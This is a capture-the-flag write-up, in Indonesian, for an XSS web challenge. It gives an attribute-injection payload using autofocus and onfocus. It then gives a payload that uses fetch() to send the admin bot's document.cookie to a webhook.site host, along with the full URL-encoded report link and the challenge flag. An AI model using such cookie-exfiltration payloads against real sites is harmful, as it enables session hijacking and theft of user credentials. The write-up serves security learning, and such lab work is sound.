

# hyper eXkeSS eXkeSS (Hard)

## Author
abdieryy

## Deskripsi
Fortinaiti ila Babaji?

Babaji ila Ikis bokis siris ikis?

Babaji ila Balestesen fayf?

Balestesen fayf ila Lucitik?

Lucitik ila Haibar eXkeSS eXkeSS eXkeSS eXkeSS?

https://owasp.org/www-community/attacks/xss/

## Writeup
Objektif pada challenge merupakan XSS, yang dimana sebuah injeksi script javascript pada website.

Untuk memunculkan alert kita bisa menggunakan payload `a" autofocus onfocus=alert(1) x= "`


Karena flag berada pada cookie milik bot sesuai pada file `bot.js`, maka kita bisa melakukan copy url yang telah rentan oleh XSS agar bisa dikunjungi oleh bot.



Karena kerentanan XSS sudah ditemukan, maka selanjutnya kita bisa menggabungkan teknik SSRF pada webhook untuk mendapatkan cookie dari bot.

```
a" autofocus onfocus=fetch(`https://yourwebhook.site?x=`+document.cookie) x= "
```

Akses pada endpoint `/report` untuk mengirimkan link tersebut, dan ubah domain ke `http://proxy/` agar sesuai dengan domain flag yang berada di docker-compose.

Full url:
```
http://proxy/?name=a%22%20autofocus%20onfocus%3Dfetch%28%60https%3A%2F%2Fwebhook%2Esite%2F3edf0f00%2Dd6e0%2D4fec%2Daca4%2D83a2fffa3878%3Fx%3D%60%2Bdocument%2Ecookie%29%20x%3D%20%22
```


```
HCS{hyper_eXkeSS_should_be_on_your_home_now_anyway_GG_for_solve_this_XSS_Challenge}
```